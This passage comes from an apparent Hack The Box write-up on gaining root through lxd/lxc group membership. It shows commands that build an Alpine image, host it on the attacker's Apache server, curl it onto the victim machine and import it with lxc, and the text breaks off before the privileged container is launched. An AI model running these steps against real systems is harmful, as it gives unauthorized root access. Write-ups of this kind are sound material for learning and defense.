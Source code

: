 - An extension of LXC, with additional flexibility and functionality.  

You can read about their key differences, comparisons/contrasts to Docker and more [here](https://linuxways.net/centos/what-is-the-difference-between-lxc-lxd-and-docker-containers/).  

So, users can be assigned to a group like lxd or lxc that has permissions with using this software.  

However, there is a key misconfiguration in doing this which allows users to execute system commands as the root user by creating a root-level privilege container, and executing /bin/sh.  

### Building an Alpine Image  

I read on [steflan-security](https://steflan-security.com/linux-privilege-escalation-exploiting-the-lxc-lxd-groups/) that it is pretty easy to exploit this by building an Alpine Linux image from GitHub and start it using the **security.privileged=true** flag.  

[Here](https://github.com/saghul/lxd-alpine-builder) is a link to the lxd-alpine-builder on GitHub by saghul.  

Since the victim machine and my Kali machine are both running x86_64 GNU/Linux (check with uname -a), I cloned and built Alpine from GitHub on my Kali machine (since HTB machines don't interface with external sources):  

```bash
# MY MACHINE:

git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder/
sudo ./build-alpine

# Now, there should be a .tar.gz image that I can host with my Apache2 and grab with victim cURL. 

sudo service apache2 start
sudo cp alpine-v3.13-x86_64-20210218_0139.tar.gz /var/www/html

# VICTIM MACHINE:

cd ~
curl http://10.10.14.27/alpine-v3.13-x86_64-20210218_0139.tar.gz --output alpine-v3.13-x86_64-20210218_0139.tar.gz
```  

### Import Alpine, Mount Root Filesystem  

The next step here is to import the image using lxc.  

```bash
# Import Image in User's Home Directory (Can Assign Alias)
lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias rooted

Command 'lxc' is available in '/snap/bin/lxc'
The command could not be located because '/snap/bin' is not included in the PATH environment variable.
lxc: command not found

# Command was not found in PATH so we have to specify its path: 
/snap/bin/lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias rooted

If this is your first time running LXD on this machine, you should also run: lxd init
To start your first instance, try: lxc launch ubuntu:18.04
```  
